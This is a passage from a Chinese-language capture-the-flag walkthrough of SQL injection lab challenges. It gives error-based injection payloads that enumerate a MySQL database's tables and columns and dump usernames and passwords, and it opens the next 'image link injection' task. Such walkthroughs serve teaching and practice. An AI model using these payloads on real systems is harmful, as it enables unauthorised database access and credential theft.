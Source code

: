     ![在这里插入图片描述](img/57f207e95a27eeb4abd873ab22febf0c.png)![在这里插入图片描述](img/62260afff96a553a118ad38a6f8226ec.png)去掉PayLoad的`limit 0,1`，尝试看看数据库是否只有一个表：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273))),1);%23`![在这里插入图片描述](img/020f52c838c0318878fb93df513af138.png)更改`limit 0,1`为`limit 1,1`，查看第二个表名：`procedure analyse(extractvalue(1,concat(0x3a,(select table_name from information_schema.tables where table_schema =0x6d79646273 limit 1,1))),1);%23`
    ![在这里插入图片描述](img/73d506e8dea83c29f73bef9eccd9f567.png)![在这里插入图片描述](img/dd57d70625d2e9fa74de3c02cc7efc69.png)
6.  赌一把，爆出`user`表的字段的名称（需要对‘mydbs’和’user’做16进制转换）：`procedure analyse(extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema =0x6d79646273 and table_name = 0x75736572))),1);%23`![在这里插入图片描述](img/788d9f147265b22e5a27ffb919476f99.png)
7.  接下来爆一爆**username**和**password**的字段值，最终在数据库第三列数据(`limit 2,1`)获得了Flag：`procedure analyse(extractvalue(1,concat(0x3a,(select concat(username,0x7e,password) from mydbs.user limit 2,1))),1);%23`![在这里插入图片描述](img/2266b53e776ce947333182fdb1045fe6.png)

# 图片链接注入

【第5题】[通关地址](http://lab1.xseclab.com/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/)

名称：邂逅

背景：小明今天出门看见了一个漂亮的帅哥和漂亮的美女，于是他写到了他的日记本里。